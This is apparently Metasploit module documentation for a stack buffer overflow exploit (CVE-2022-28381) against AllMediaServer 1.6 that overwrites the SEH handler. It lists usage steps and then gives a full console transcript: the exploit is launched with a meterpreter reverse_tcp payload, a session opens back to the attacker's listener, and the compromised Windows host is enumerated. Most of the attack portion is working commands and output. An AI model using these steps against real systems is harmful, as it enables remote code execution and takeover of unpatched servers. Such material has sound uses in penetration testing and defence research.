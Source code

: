 ## Vulnerable Application

AllMediaServer 1.6 and prior is vulnerable to a stack buffer overflow resulting in a SEH handler overwrite when sending an
overly long TCP request to the listening server, which runs on port 888 by default. By controlling this buffer overflow,
an attacker can overwrite the SEH exception handler and abuse the exception handling mechanism to gain RCE on the target
server as the user running AllMediaServer 1.6.

This exploit has been confirmed to work on x86 systems as well as on WoW64 systems, however it will not work against x64
systems due to the fact that they have a different way of implementing exception handling.

## Verification Steps
1. `use exploit/windows/misc/cve_2022_28381_allmediaserver_bof`
1. Set `RHOSTS` to the target IP address or addresses.
1. Optional: Set `RPORT` to the port of AllMediaServer if it has changed.
1. Set payload options as appropriate.
1. `exploit`
1. Verify you get a new shell as the user running AllMediaServer.

## Options

## Scenarios

### Windows 10 10.0.19043.1586 with AllMediaServer 1.6
```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/misc/cve_2022_28381_allmediaserver_bof
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > show options

Module options (exploit/windows/misc/cve_2022_28381_allmediaserver_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasplo
                                      it
   RPORT   888              yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.26.241.162   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ALLMediaServer 1.6


msf6 exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > set RHOSTS 172.26.251.245
RHOSTS => 172.26.251.245
msf6 exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > set LHOST 172.26.241.162
LHOST => 172.26.241.162
msf6 exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > exploit

[*] Started reverse TCP handler on 172.26.241.162:4444
[*] 172.26.251.245:888 - Sending payload to exploit MediaServer...
[*] 172.26.251.245:888 - Sent payload...hopefully we should get a shell!
[*] Sending stage (175174 bytes) to 172.26.251.245
[*] Meterpreter session 1 opened (172.26.241.162:4444 -> 172.26.251.245:50285 ) at 2022-04-04 10:50:22 -0500

meterpreter > getuid
Server username: DESKTOP-JLPENJ2\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-JLPENJ2
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter > exit
```
